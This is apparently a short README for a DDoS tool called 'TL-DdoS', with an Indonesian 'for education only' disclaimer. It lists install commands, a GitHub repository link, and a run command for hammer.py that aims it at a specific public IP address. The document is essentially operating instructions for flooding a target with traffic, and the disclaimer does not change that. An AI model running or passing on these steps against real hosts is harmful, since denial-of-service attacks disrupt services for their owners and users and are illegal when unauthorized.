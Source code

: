 TOOLS INI TERBUKA HANYA SEBAGAI EDUKASI, JANGAN DISALAH GUNAKAN

apt update && apt upgrade
apt install python
apt install git
https://github.com/Twinlion24434/TL-DdoS.git
apt install dnsutils
nslookup example.com

cd TL-Ddos
python hammer.py 

Run :
 python hammer.py -s 213.8.146.28 -t 135
